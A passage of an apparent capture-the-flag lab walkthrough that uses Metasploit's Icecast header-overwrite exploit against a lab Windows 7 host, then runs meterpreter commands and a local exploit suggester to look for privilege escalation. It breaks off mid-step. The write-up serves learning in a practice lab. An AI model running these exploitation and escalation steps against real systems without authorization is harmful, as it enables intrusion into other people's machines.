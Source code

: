 ```
msf5 > search icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


msf5 > use 0                         
msf5 exploit(windows/http/icecast_header) >  show options 

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.116.208
RHOSTS => 10.10.116.208
msf5 exploit(windows/http/icecast_header) > run
```

# [Task 4] Escalate 
## #2
run ```ps``` and find out
## #3 + #4
```sysinfo``` get info about the system
```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
## #5 #6
```run post/multi/recon/local_exploit_suggester``` can be use to find vulnerability on the system. dosent work well with x64
```
meterpreter > run post/multi/recon/local_exploit_suggester
